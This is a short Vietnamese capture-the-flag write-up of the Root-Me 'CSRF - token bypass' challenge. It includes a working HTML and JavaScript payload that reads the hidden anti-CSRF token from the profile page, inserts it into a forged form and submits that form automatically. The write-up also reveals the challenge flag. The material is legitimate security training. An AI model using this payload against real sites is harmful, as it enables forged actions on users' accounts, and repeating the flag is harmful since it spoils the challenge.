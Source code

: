 # Write up challenge CSRF - token bypass

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)<br>
</br>

Truy cập challenge ta thấy bài này có cấu trúc tương tự CSRF - 0 protection. Nhưng khi inspect ta thấy được chỗ khác là có thêm token được tạo bởi server đặt ẩn vào mã html và làm mới theo thời gian thực để kiểm tra tránh tấn công CSRF.

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

<br>

Từ đó ý tưởng là ta sẽ xây dựng đoạn code tương tự CSRF - 0 protection, nhưng thêm đoạn script để truy cậ vào trang Profile và lấy token 

    <form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data"> 
	    <input type="hidden" name="username" value="q" /> 
	    <input type="hidden" name="status" value="on" />
	    <input id="admin-token" type="hidden" name="token" value="" />
    </form> 
    <script> 
	    var request = new XMLHttpRequest(); 
	    request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false); 
	    request.send(null); 
	    var respone = request.responseText; 
	    var groups = respone.match("token\" value=\"(.*?)\""); 
	    var token = groups[1]; document.getElementById("admin-token").value = token; 
	    document.csrf.submit(); 
    </script>

Có được flag:

<img src="./img/4.png" alt="normal_acc_TRAbID"/>


Submit thành công 

<img src="./img/5.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** Byp4ss_CSRF_T0k3n-w1th-XSS

